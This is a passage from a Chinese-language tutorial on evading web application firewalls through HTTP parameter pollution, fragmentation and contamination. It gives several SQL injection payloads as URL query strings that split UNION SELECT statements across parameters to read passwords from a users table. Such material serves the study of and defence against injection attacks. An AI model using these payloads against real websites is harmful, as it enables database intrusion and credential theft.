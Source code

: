 `/?id=1;select+1&id=2,3+from+users+where+id=1—`
  
`/?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`
  

  
HPP又称做重复参数污染，最简单的就是?uid=1&uid=2&uid=3，对于这种情况不同的Web服务器处理方式如下
  
具体WAF如何处理要看其设置的规则，不过就示例中感觉最后一个来看有较大可能绕过
  
![waf1](../pictures/wafi1.png)
  

  
2.HPF(HTTP Parameter Fragment)
  
这种方法是HTTP分割注入，同CRLF略有相似之处(使用控制字符%0a、%0d等换行)
  
举例　
  
`/?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`
  
`select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users—`
  

  
看完上面两个示例发现和HPP最后一个示例很像，不同之处在于参数不一样，这里是在不同的参数之间进行分割，结果到了数据库执行查询时再合并语句。
  

  
3.HPC(HTTP Parameter Contamination)
  
这一概念见于Beyond SQLi: Obfuscate and Bypass这里Contamination意为污染
  
RFC2396定义了如下一些字符
  
```
  
Unreserved: a-z, A-Z, 0-9 and _ . ! ~ * ' ()  
  
Reserved : ; / ? : @ & = + $ ,  
  
Unwise : { } | \ ^ [ ] `
  
```
  

  
不同的Web服务器处理处理构造得特殊请求时有不同的逻辑
  
![waf2](../pictures/wafi2.png)
  